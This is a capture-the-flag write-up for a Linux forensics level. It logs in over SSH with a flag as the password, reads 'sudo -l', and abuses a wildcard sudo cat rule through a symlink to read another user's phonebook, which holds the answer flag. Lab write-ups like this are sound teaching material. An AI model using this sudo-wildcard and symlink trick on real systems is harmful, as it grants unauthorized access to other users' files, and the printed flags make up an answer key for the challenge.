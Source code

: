 # Level 6

```shell
$ sshpass -p Flag-08grILsn3ekqhDK7cKBV6ka8B ssh trinity@challenges.ringzer0team.com -p 10090
```

```shell
trinity@forensics:~$ ls -la
total 72
drwxr-x--- 8 trinity trinity  4096 Jun 23 18:03 .
drwxr-xr-x 8 root    root     4096 May 30 18:08 ..
lrwxrwxrwx 1 trinity trinity     9 Jun  3 17:44 .bash_history -> /dev/null
-rwxr-x--- 1 trinity trinity   252 May 30 18:07 .bash_logout
-rwxr-x--- 1 trinity trinity  2632 May 30 18:07 .bashrc
drwx------ 2 trinity trinity  4096 May 31 02:23 .cache
-rw------- 1 trinity trinity    73 Jun 14 18:35 .lesshst
-rw------- 1 trinity trinity    60 Jun  1 15:16 .mysql_history
drwxrwxr-x 2 trinity trinity  4096 Jun  3 17:38 .nano
-rwxr-x--- 1 trinity trinity   674 May 30 18:07 .profile
drwxr-xr-x 2 trinity trinity  4096 Jun 18 16:09 .vim
-rw------- 1 trinity trinity 10850 Jun 23 18:03 .viminfo
drwxrwxr-x 5 trinity trinity  4096 Jun 20 01:45 _tmp
-rw-rw-r-- 1 trinity trinity    63 Jun 15 03:49 log
lrwxrwxrwx 1 trinity trinity    19 Jun 18 15:22 ne -> /home/neo/phonebook
-rwxr-x--- 1 trinity trinity   124 May 30 18:07 phonebook
drwxrwx--x 2 trinity trinity  4096 Jun 23 14:10 tmp
drwxrwxr-x 4 trinity trinity  4096 Jun 20 02:58 var
```

So, obviously, phonebook only `neo` THE CHOSEN ONE can read.

However, seems that someone make link ne to neo's phonebook, if we can `cat` this link, may find something.

To get permission to take place of neo, we need `sudo`.

```shell
trinity@lxc-sysadmin:~$ sudo cat ne
[sudo] password for trinity: 
Sorry, user trinity is not allowed to execute '/bin/cat ne' as root on lxc-sysadmin.

trinity@forensics:~$ sudo -l
Matching Defaults entries for trinity on lxc-sysadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User trinity may run the following commands on lxc-sysadmin:
    (neo) /bin/cat /home/trinity/*
```

Follow by clue :`(neo) /bin/cat /home/trinity/*`, let's go to `bin/cat /home/trinity/*` with chosen one :`neo`.

```shell
trinity@forensics:~$ sudo -u neo /bin/cat /home/trinity/*
Fri Jun 15 03:49:24 UTC 2018
trinity
Gathering.py
Gathering.py
The Oracle        1800-133-7133
Persephone        345-555-1244




change my current password FLAG-lRGLKGh2895wIAoOvcBbgk4oL
don't forget to remove this :) 
The Oracle        1800-133-7133
Persephone        345-555-1244





copy made by Cypher copy utility on /home/neo/phonebook
/bin/cat: /home/trinity/tmp: Is a directory
/bin/cat: /home/trinity/_tmp: Is a directory
/bin/cat: /home/trinity/var: Is a directory
```

If we follow by clue :`/home/neo/phonebook` and type `sudo -u neo /bin/cat /home/trinity/../neo/phonebook` may found exactly file.

But knowm someone left the link.

Answer:
```
FLAG-lRGLKGh2895wIAoOvcBbgk4oL
```